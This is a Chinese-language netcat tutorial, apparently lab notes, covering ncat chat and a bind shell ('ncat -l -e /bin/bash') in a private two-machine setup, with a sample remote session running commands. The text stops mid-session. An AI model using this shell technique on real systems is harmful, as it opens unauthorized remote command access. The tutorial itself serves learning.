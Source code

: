 # 用法

本用法全部基于`ncat`命令来做的记录，其他版本的nc可能会有些许差别。

## 实验环境

|   操作系统    |    IP地址    |
| :-----------: | :----------: |
| Ubuntu 18.04  | 10.211.55.14 |
| macOS 10.13.6 | 10.211.55.2  |

## 文字交互

**监听入站连接**

> `-l`：使用监听模式，监控传入的信息

```bash
# sqlsec @ X1cT34m-iMac in ~ 
$ ncat -l 2333COPY
```

此刻macOS就会在监听本地2333端口的入站连接。

**连接远程系统**

尝试实验nc在Ubuntu系统下来连接macOS的2333端口：

```bash
# sqlsec @ ubuntu in ~ 
$ ncat 10.211.55.2 2333COPY
```

现在就可以通过nc来聊天来，任何一方输入的内容都会被另一方看到：
![nc安全工具学习记录-小绿草信息安全实验室](https://dn-coding-net-tweet.codehub.cn/photo/2019/3e76240d-b42d-4b20-a8ef-eb472b74f519.png)
任一方按`Ctrl+C`即可终止这尴尬的聊天。

## 命令交互

### 基本交互

> `-e`：将传入的信息以命令执行

在macOS上运行如下命令，将`/bin/bash`通过2333端口来监听，将收到的信息都发送到`/bin/bash`

```bash
# sqlsec @ X1cT34m-iMac in ~ [22:09:34]
$ ncat -l -e /bin/bash 2333COPY
```

Ubuntu系统这边依然向往常一样来连接macOS的2333端口，只是此时Ubutnu输入的指令都会传入macOS的/bin/bash 执行成功后会返回信息，类似于ssh操作连接来macOS一样：

```bash
# sqlsec @ ubuntu in ~ [22:13:49] C:130
$ ncat 10.211.55.2 2333
whoami
sqlsec
pwd
/Users/sqlsec
id
uid=501(sqlsec) gid=20(staff) groups=20(staff),501(access_bpf),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserver
adm),98(_lpadmin),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.a
ccess_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
uname -a
```
